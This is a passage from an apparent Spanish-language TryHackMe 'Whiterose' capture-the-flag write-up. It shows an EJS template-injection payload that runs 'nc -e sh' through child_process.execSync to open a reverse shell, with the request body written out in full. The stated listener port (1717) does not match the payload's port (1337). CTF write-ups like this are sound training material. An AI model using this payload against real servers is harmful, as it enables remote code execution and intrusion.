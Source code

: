 ![Whiterose yw4rf](../../../assets/TryHackMe/whiterose/whiterose-22.png)

Al investigar más sobre esta vulnerabilidad encuentro que es posible obtener **RCE** mediante la inyección de código arbitrario: `&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('nc -e sh 127.0.0.1 1337');s`

Para obtener **RCE** mediante una **ReverseShell** nos pondremos en escucha mediante el **Netcat** por el puerto **1717**

![Whiterose yw4rf](../../../assets/TryHackMe/whiterose/whiterose-23.png)

Luego de ponernos en escucha mediante **Netcat** lo que haremos es enviar la petición `name=test&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('nc -e sh 127.0.0.1 1337');s`

![Whiterose yw4rf](../../../assets/TryHackMe/whiterose/whiterose-24.png)
